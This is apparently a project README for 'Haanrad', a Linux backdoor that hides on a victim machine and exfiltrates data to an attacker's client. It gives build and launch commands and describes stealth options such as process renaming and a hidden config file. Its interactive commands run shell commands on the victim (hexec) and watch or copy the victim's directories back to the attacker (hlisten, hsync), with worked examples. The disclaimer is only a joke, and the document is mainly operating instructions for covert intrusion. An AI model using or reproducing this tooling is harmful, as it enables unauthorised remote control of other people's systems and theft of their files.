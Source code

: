 #Haanrad
<b> FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED </b>

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

#Setup

##Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

##Installation
Execute the following commands

1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

##Usage
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:

| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | Yes                   | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the process name chosen for Haanrad                                    | No         | No                    | Not Appended                     | --HINT       |
 
###Config File Support
Haanrad supports some of the specified options to be declared within a configuration file. There is a very strict orientation
in how this file must be written in order to be picked up by Haanrad. The configuration file is only read at startup
and is never referred to afterwards. In order for the config file to be detected by haanrad it must be located in the same
location as the `haanrad` binary and named `.cache`. Settings are entered in the format of <key>=<value> with the key
being the supported flag listed above without the preceding dash (`-`). An example configuration file might look like this
```
c=127.0.0.1
t=150
```
Note there is no spacing at the beginning or end of the file, and no comments are accepted within the file. Invalid formatting
of the file may cause Haanrad to even crash and not load at all

Run the client with the following command from within the `/bin` folder
```
./client [--DEBUG]`
```
The parameters are as follows:

| Parameter | Purpose                             | Required ? | Config File Support ? | Default  | Example |
| --------- | ----------------------------------- | ---------- | --------------------- | -------- | ------- |
| --DEBUG   | Print Debug Information To Console  | No         | No                    | Disabled | --DEBUG |
 
###Interactive Mode
Upon Haanrad connecting to the client, interactive mode will enable. Making a number of commands available on the client. Each command has two layers,
a client specific command, and a haanrad specific command, followed then by the haanrad command parameter. The command structure is as follows:
```
<clientcommand> <haanradcommand> <haanradparam>
```
The following client commands are available:

| Command | Purpose                          |
| ------- | -------------------------------- |
| send    | Send A Command To Haanrad        |
| check   | Check For Responses From Haanrad |

The `check` command in the above table does not have any haanrad commands or haanrad params excepted as check is used specificaly for checking
for any new responses from Haanrad. `send` though has several options available. They are:

| Command | Purpose                                      | Parameter                          |
| ------- | -------------------------------------------- | ---------------------------------- |
| hexec   | Execute a terminal command on Haanrad        | Command to be executed             |
| hlisten | Create/Remove a listener of a directory      | Dir to Create/Remove listenr       |
| hsync   | Create/Remove a sync listener of a directory | Dir to Create/Remove sync listener |

Note the difference between the `hlisten` and `hsync` commands. Executing an `hlisten` will cause Haanrad to setup an inotify listener
in the parameter passed directroy. When an event occurs in this directory, a response will be sent from Haanrad back to the client. Using
`hlisten` this is then all that will happen. The client will simply be notified that an event occurred. If the `hsync` command is used though,
the client will be both notified of the event occurring and will also be sent a copy of the changed file. 

During an `hsync`, the client will download and write the file to the local `sync` directory, that will be generated if it does not previous exist. 
The `sync` directory is orgnaized to emulate the root path of the victim machine thus any synced files will have their folder structure recreated 
within the `sync` folder to emulate that of the victim machine.

Additionaly to the above mentioned commands a number of house keeping commands are available during response failure from Haanrad. The below can be
useful when a transfer fails and the client's buffer is left in an unstable state. Note these command are independent to anything previously
mentioned and do not run under the `send` or `check` client commands. See the examples for clarification.

| Command  | Purpose                                                  |
| -------- | -------------------------------------------------------- |
| bufcheck | Prints the current content of the Client receive buffer  |
| bufclear | Clears the current contents of the Client receive buffer |

Some command examples:
```
# Execute ls on the victim machine
send hexec ls

# Setup a sync listener for directory /haanrad/secret/info
send hsync /haanrad/secret/info

#Clear the client buffer
bufclear

#Print the client buffer
bufcheck
```
